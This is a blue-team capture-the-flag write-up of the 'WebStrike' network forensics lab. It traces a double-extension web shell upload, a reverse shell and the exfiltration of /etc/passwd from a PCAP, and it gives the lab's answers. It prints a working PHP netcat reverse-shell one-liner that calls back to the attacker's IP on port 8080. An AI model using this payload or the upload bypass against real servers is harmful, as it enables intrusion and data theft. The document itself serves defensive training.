







## Scenario
A suspicious file was identified on a company web server, raising alarms within the intranet. The Development team flagged the anomaly, suspecting potential malicious activity. To address the issue, the network team captured critical network traffic and prepared a PCAP file for review. <br>
Your task is to analyze the provided PCAP file to uncover how the file appeared and determine the extent of any unauthorized activity. <br>

## How the attack unfolded
### Reconnaissance and browsing
The attacker (IP= 117.11.88.124, tracing to Tianjin, China) visited the website _shoporoma.com_ and browsed around, including the reviews section, looking for an upload feature to exploit. <br>
### Web shell upload
Using the site's file upload form, the attacker uploaded a file named _image.jpg.php_. Despite the '.jpg' in the name, the server treated it as a PHP script, meaning the server would execute it rather than store it. This is a classic double-extension bypass.
 <br>
### Reverse shell activated
The php file 'image.jpg.php' contained a reverse shell. This is a script that forces the web server to call back to the attacker's machine and hand over a command-line terminal. The attacker then ran commands like _whoami_ to confirm their level of access.
 <br>
### Data exfiltration
With terminal access, the attacker used _curl_ to download the server's _etc/passwd_ file. This file lists all the user accounts on the system back to the attacker's machine.
 <br>

## Key terms explained
 - PCAP file - a packet capture, a recording of all network traffic.
 - Wireshark - an open source tool that lets you open PCAP file and analyse individual packets. 
 - Web shell - a malicious uploaded to a web server. Once placed, the attacker can visit it in a browser to send commands to the server.
 - Reverse shell - instead of the attacker connecting to the victim, the victim's machine connects back to the attacker. This bypasses many firewalls that block incoming connections. 
 - TCP stream - in Wireshark, 'Follow the Stream' reassembles a raw conversation between two machines into readable text.
 - etc/passwd - a file on linux systems listing all user accounts. It doesn't store passwords, but gives attackers a map of users to target.
 - User-Agent - A string sent with every web request identifying the browser and OS. Attackers can't easily hide it in network captures, making it a useful fingerprint.
 - Port 8080 - A common alternative HTTP port. Attackers often use it for reverse shells because it's less likely to be blocked by firewalls than unusual ports.

## Questions and Answers
### Identifying the geographical origin of the attack facilitates the implementation of geo-blocking measures and the analysis of threat intelligence. From which city did the attack originate?
 - Why this matters: Knowing the attacker's location helps security teams implement geo-blocking, rules that reject traffic from specific countries or regions.
 - How I did it: In Wireshark, I identified the IP address initiating requests to the web server. One address (24.49.63.79) was the server; the other (117.11.88.124) was the source of all the suspicious activity. Running a free IP geolocation lookup on that address revealed its origin. <br>
 <br>
Answer: _Tianjin_

### Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's Full User-Agent?
 - Why this matters: The User-Agent tells us what browser and OS the attacker was using. Security teams can use it to write detection rules, flagging future requests from the same signature.
 - How I did it: I right-clicked any HTTP packet from the attacker's IP in Wireshark, selected Follow → TCP Stream, and read the HTTP headers in the reconstructed conversation. The User-Agent header appeared in every request.
 <br>
Answer: _Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0_

### We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?
 - Why this matters: The filename tells us how the attacker bypassed the upload filter. The server was likely configured to block .php files, but the double extension .jpg.php tricked it into accepting the file while still executing it as PHP.
 - How I did it: Following the TCP stream of the POST request to /reviews/upload.php revealed the full multipart form upload. Inside the packet we could see the filename and the PHP payload:
 <br>
Answer: _image.jpg.php_

### Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?
 - Why this matters:  Knowing exactly where uploads land helps incident responders find and delete the web shell quickly, and helps developers apply tighter access controls to that directory.
- How I did it: After the upload, the attacker made a GET request to trigger the shell. The URL path in that request revealed exactly where the file was stored on the server.
 <br>
Answer: _/reviews/uploads_

### Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?
 - Why this matters: The port number tells us where the attacker was "listening" for the incoming connection. Knowing this lets defenders block outbound traffic to that port at the firewall level.
- How I did it: The PHP web shell code was visible in the TCP stream. The nc (netcat) command at the end shows the attacker's IP and port:
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>
```
Answer: _8080_

### Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?
 - Why this matters: /etc/passwd lists every user account on the system. Attackers use it to identify service accounts, admin users, and build a target list for further attacks, including password cracking if they can also get /etc/shadow.
 - How I did it: In the reverse shell TCP stream, we could read the attacker's commands as plain text. After confirming access with whoami, they ran curl.

Answer: _passwd_

## Conclusion
The WebStrike investigation demonstrated a complete, end-to-end web application attack - from initial reconnaissance through to data exfiltration - carried out using nothing more than a browser, a crafted file, and a netcat listener. Every stage left traces in the network traffic, and Wireshark gave us the tools to read them. <br>
This lab is a good reminder that attackers follow the path of least resistance. The server wasn't broken into through a complex exploit - a misconfigured upload form was enough. As a defender, understanding how attacks like this work is the first step to knowing where to look, what to fix, and how to write detection rules that catch the next one early. <br>

Thanks for reading😊!